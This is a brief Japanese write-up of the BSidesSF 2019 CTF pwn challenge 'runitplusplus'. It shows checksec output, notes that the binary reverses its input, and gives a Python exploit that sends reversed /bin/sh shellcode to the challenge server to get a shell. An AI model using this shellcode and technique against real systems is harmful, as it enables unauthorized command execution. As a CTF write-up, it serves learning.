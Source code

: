 # [pwn 52pts] runitplusplus - BSidesSF 2019 CTF
```
$ checksec runitplusplus
emac[*] 'runitplusplus'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```
runitと同じ感じですが、IDAで解析すると送ったシェルコードに処理が施されていることが分かります。
処理を読むと、バッファを反転させていることが分かります。
したがって、送るシェルコードを逆にして送ってやればOKです。
```python
from ptrlib import *

shellcode  = b"\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"
shellcode += b"\x90" * (0x400 - len(shellcode))
shellcode = shellcode[::-1]

sock = Socket("runitplusplus-a36bf652.challenges.bsidessf.net", 5353)
#sock = Socket("localhost", 5353)
#_ = input()

sock.send(shellcode)
sock.interactive()
```

# 感想
やるだけ問題ですね。